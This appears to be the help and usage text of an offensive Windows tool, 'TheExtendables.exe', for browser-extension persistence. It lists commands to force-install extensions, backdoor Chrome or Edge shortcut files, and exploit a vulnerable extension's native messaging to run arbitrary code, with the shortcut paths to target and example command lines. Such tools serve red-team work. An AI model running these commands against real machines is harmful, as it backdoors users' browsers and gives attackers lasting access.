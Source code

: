 /recon        - Perform reconnaissance on installed extensions
[OPTIONAL     - /verbose]

/install      - Force installs an extension. REQUIRES ADMIN, Chrome or Edge only.
[REQUIRED     - /extensionID]
[OPTIONAL     - /browser, /allUsers, /verbose]

/lnkTarget    - Retrieves the path and arguments of a supplied shortcut file
[REQUIRED     - /lnkPath]

/lnkBackdoor  - Backdoors a shortcut to a browser, Chrome or Edge only.
[REQUIRED     - /lnkPath, /extensionPath]
[OPTIONAL     - /browser]
Taskbar shortcuts are stored within - %APPDATA%\\Microsoft\\Internet Explorer\\Quick Launch\\User Pinned\\TaskBar
Also make sure to check the desktop - %HOMEPATH%\\Desktop
And a user's start menu - %APPDATA%\\Microsoft\\Windows\\Start Menu\\Programs
And all user's start menu - %PROGRAMDATA%\\Microsoft\\Windows\\Start Menu\\Programs

/persist      - Exploits a vulnerable extension to run arbitrary code through it
[REQUIRED     - /extensionID, /extensionName, /targetPath]
[OPTIONAL     - /browser, /allUsers, /verbose, /nativePath, /description, /force]


[+] Arguments [+]
[#]===========[#]
(All below take arguments apart from /verbose and /force)

/extensionID   - Identifier string for the extension, eg. anffbmbabbpmcaflbelkkhgdcfgppknb
/extensionName - Internal name of the extension, eg. com.companyName.extensionsName
/targetPath    - Path of exe or file with default app mapped, to run. eg. C:\\windows\\system32\\calc.exe
/browser       - Browser to target: Chrome, Edge or Firefox. Default = Chrome
/allUsers      - Install in HKLM or HKCU. user = HKCU, machine = HKLM (only works if admin). Default = user
/nativePath    - Path for native.json to be saved to. Default = C:\\ProgramData\\native.json.
/description   - Description of extension in native.json. Default - This is an extension that extends browser functionality
/lnkPath       - Path to shortcut file to retrieve target or backdoor. eg. %HOMEPATH%\Desktop\Google Chrome.lnk
/extensionPath - Path to unpacked extension. eg. C:\\ProgramData\\
/verbose       - Adds additional verbosity to output (Takes no argument)
/force         - Ignore any mutex to edit or replace old payload (Takes no argument)


[+] Examples [+]
[#]==========[#]

Example: TheExtendables.exe /recon /verbose
Example: TheExtendables.exe /install /extensionID anffbmbabbpmcaflbelkkhgdcfgppknb
Example: TheExtendables.exe /lnkTarget /lnkPath "%HOMEPATH%\\Desktop\\Google Chrome.lnk"
Example: TheExtendables.exe /lnkBackdoor /lnkPath "%HOMEPATH%\\Desktop\\Google Chrome.lnk" /extensionPath C:\\ProgramData\\extension\\
Example: TheExtendables.exe /persist /extensionID anffbmbabbpmcaflbelkkhgdcfgppknb /extensionName com.companyName.extensionsName /targetPath C:\\windows\\system32\\calc.exe
```
